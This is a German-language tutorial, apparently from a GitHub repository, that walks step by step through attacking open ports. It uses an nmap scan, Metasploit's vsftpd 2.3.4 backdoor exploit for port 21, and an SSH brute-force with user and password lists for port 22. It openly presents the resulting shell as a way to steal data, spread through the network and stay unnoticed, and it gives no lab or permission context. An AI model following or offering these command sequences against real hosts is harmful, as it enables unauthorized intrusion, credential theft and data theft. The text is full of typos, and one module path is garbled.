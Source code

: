 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``
  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts IP-Adresse des Ziels``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
Dieser Coammand sagt aus bei erfolgreichem erraten der Login Credentials wird der angrif abgebrochen.
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/Name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png" alt="PStatus Serie" width="150" height="125">

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png" alt="PStatus Serie" width="150" height="125">


Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="670" height="250">

Mit folgendem Command kann eine Session mit den Ziel Aufgebaut werden. 
``sessions -i 1``

Mit dieser Session kann man alle möglichen Informationen über das Zielsystem herausfinden und seinen Zurgriff im Netzwerk erweitern oder Daten stehlen:
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134683131-31681483-ce4f-45de-868f-6c3a52d6d647.png" alt="PStatus Serie" width="500" height="110">

Falls dein Eindringen unbemerkt bleibt und das Passwort oder der Username nicht geändert wird, kannst du dich einfach per ssh mit dem Zielsystem verbinden.
``ssh username@IP-Adresse_des_Ziels``


